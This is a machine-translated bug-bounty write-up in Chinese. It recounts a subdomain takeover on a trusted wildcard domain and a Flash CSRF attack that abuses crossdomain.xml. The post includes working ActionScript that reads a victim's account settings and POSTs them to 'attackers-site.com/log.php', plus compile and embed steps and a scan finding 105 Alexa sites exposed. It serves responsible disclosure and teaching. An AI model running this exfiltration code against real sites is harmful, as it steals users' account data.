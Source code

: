 # 绕过跨域政策，点击了数百个顶级 Alexa 网站

> 原文：<https://infosecwriteups.com/bypassing-crossdomain-policy-and-hit-hundreds-of-top-alexa-sites-af1944f6bbf5?source=collection_archive---------4----------------------->

嗯，距离我上次写文章已经有很长一段时间了，所以我觉得有必要与社区分享一下我在 h1 bug bounty 程序中发现的这个有趣的 bug。从现在起我们可以称之为[redacted.com]来维护他的隐私。

**做侦察:**

![](img/600da9c46f0f2caf0f4c3e3c57ed2366.png)

一个通配符域名引起了我的注意，比如:*.trusted.com

所以接下来的事情是运行**子列表**来查看*.trusted.com 上的子域名

![](img/252e6a02ff22087a64abe8cd5695687e.png)

(我可以透露子域，因为还没有打补丁)

我发现了一个类似“x.media.trusted.com”的子域，这个站点指向 fastly 实例，而 fastly 实例又指向一个云前端实例:我是怎么知道的？因为我有“绝地能力”和对原力的信任..(诡异不？).

![](img/144780a7b1d85efe5d6a47071838c22c.png)

我试图从云前端获得该域名，令我惊讶的是，这是一个正确的操作:)。因此..我在 x.media.trusted.com 有一个成功的**【域名接管】【T5:)**

![](img/3c079bb46c2e77e86703d50ecddab8db.png)

(收购方的 poc 链接)

但是这个“可信的”站点没有 bbp，所以接管将用于在主 BBP[redacted.com]上创建可能的 CSRF，因为在他的 crossdomain.xml 文件上允许。(是的，我知道你知道，但是我喜欢一遍又一遍地重复..)

**创建令人惊叹的 CSRF Flash 请求:**

那么我们现在需要什么？一个 flash 文件，它充当 CSRF 并创建一个请求来窃取[redacted.com]上的用户登录数据

首先，我们创建动作脚本文件，如下所示:

// ak1t4-poc.as

```
package {import flash.display.Sprite;import flash.events.*;import flash.net.URLRequestMethod;import flash.net.URLRequest;import flash.net.URLLoader;public class ak1t4-poc extends Sprite {public function ak1t4-poc() {**// Target URL from where the data is to be retrieved**var readFrom:String = “https://[redacted-com]/account/v3/settings";var readRequest:URLRequest = new URLRequest(readFrom);var getLoader:URLLoader = new URLLoader();getLoader.addEventListener(Event.COMPLETE, eventHandler);try {getLoader.load(readRequest);} catch (error:Error) {trace(“Error loading URL: “ + error);}}private function eventHandler(event:Event):void {**// URL to which retrieved data is to be sent**var sendTo:String = “https://attackers-site.com/log.php"var sendRequest:URLRequest = new URLRequest(sendTo);sendRequest.method = URLRequestMethod.POST;var body:String = escape(event.target.data);sendRequest.data = body;var sendLoader:URLLoader = new URLLoader();try {sendLoader.load(sendRequest);} catch (error:Error) {trace(“Error loading URL: “ + error);}}}}
```

**编译牛逼的 SWF:**

```
/opt/flex/bin/mxmlc /Users/Desktop/ak1t4/ak1t4-poc.as — output exploit.swf
```

现在我们嵌入了。swf 文件转换为 html

//exp.html

```
<html><object type=”application/x-shockwave-flash” data=”exploit.swf” width=”1" height=”1"><param name=”movie” value=”exploit.swf” /></object></html>
```

现在，我们将漏洞上传到子域接管:“https://x . media . trusted . com/exp . html”

**我们已经准备好了我们的 CSRF，我觉得:**

![](img/8abfa4c267855d67996d9e6b025815f0.png)

**测试 CSRF:**

![](img/ba0383df3110e563b0179e293b53d984.png)

我们这里有一些有趣的东西:

1.  截图中的 csrf 文件名为“xoxo.html ”,是受害者打开的。
2.  嵌入 evil.swf 文件，该文件使用/profile/ endpoint 响应 200 OK 向记录的受害者用户数据 url 发出请求
3.  最后，向存储在 attackers-site.com/log.php 上的 log.php 文件发送一个很棒的 POST 请求，他用所有检索到的数据创建了一个 stealdata.txt 文件。

![](img/753d66d0fea18a0824902220457dc8ae.png)

**此时，我们成功地进行了一次 CSRF 闪存攻击，我们的服务器上记录了用户的数据:)**

![](img/3b8475b6130eee5eababa82afb2504ea.png)

> **THE-END？？**

当然不是，这个故事继续下去，变得越来越好…

**绝地回忆:**

所有这些关于跨域策略的场景直接冲击了我的大脑，提醒我缺少了一些东西..

我接手的 **trusted.domain** 从一开始就很熟悉，所以我记得我顺便看过一份白皮书，其中提到这个域名在许多其他重要网站中显示为“可信”..所以我的好奇心带我到更深的层次继续我的研究..

**下载数据:**

我做的第一件事是在我的硬盘上下载前 1000 个 alexa 网站，然后我抓取所有域，查看哪些域在使用*.trusted.com 作为他们的 crossdomain.xml 文件上的 allow。

> **天网-localhost:crossdoamin ak1t 4 _ hax 0r $**一边读-r 线；do cat $ line | fgrep trusted . domain；完成<交叉列表| wc -l
> 
> 105

![](img/d61e4d0771f2586abe746ea25493bb82.png)

哇！令我惊讶的是，我得到了一个不错的数字:“105**”**个域名受到我的 CSRF 漏洞攻击的影响。(也许我们在 Alexa top 10.000 中有更多条目:)

(我们现在需要知道，受影响的域应该有一些有趣的东西可以窃取:如用户帐户数据、敏感信息等)

我们手里有 105 个域名受到 alexa 顶级网站的影响，这些网站目前处于“安全”模式:)

**恐惧——愤怒——憎恨:**

![](img/3fae705de7e1f5b0910abd21754df808.png)

这个故事以“x.media.trusted.com”域的部分修复和我收到来自亚马逊的一个糟糕的:**“暂停帐户”**结束，因为似乎他们(trusted.domain)对我在 POC 中使用的 aws 帐户上托管的文件进行了**投诉**:(

*这个记得我的东西好像是**智者“尤达”说的:**

![](img/f81243e66983fd325ed1b1aa824fc464.png)

**原力强大的一方:**

因此；h1 日我从 BBP 收到了一笔**丰厚的奖金$$$** 用于这份 CSRF 报告和概念验证；现在我们又开心了；而且肯定地说:更安全了:)

![](img/0021255fc649170c899749e9873a8a71.png)

[特别感谢这些**绝地大师**他们开启了我的心灵，让我了解了他们令人敬畏的课程]

*   https://twitter.com/h1_sp1d3r(感谢你分享的令人敬畏的知识，感谢你令人惊叹的文章，这些文章给我留下了深刻的印象，让我的思维更上一层楼)
*   亚辛·阿布基尔[https://twitter.com/Yassineaboukir](https://twitter.com/Yassineaboukir)(时间在流逝，但你仍然是我一年前在这个疯狂的虫类赏金世界里遇到的那个令人敬畏的家伙，今天，我要感谢你的好意和分享的知识:我非常感激:)
*   https://twitter.com/ArbazKiraak(一个有着不可思议的头脑的年轻人，他分享他的知识并改善了我们的社区，继续你令人敬畏的工作，一次又一次地感谢你的来信，因为我比昨天有了更多的知识和对事物的理解，我们的社区也变得更好了，谢谢你，伙计！！)

> 愿原力与你同在，年轻的学徒！

**黑客快乐！:)**

记住:如果你失败了？再努力点！

@ak1t4

[](https://hackerone.com/ak1t4) [## HackerOne 简介- ak1t4

### 怀特 4t Hack3r &禅宗和尚&赏金猎人-https://twitter.com/knowledge_2014

hackerone.com](https://hackerone.com/ak1t4) [](https://twitter.com/knowledge_2014) [## ak1t4 z3n (@knowledge_2014) |推特

### ak1t4 z3n 的最新推文(@knowledge_2014)。Bug 赏金猎人- HoF:谷歌- Mozilla - PayPal -微软…

twitter.com](https://twitter.com/knowledge_2014)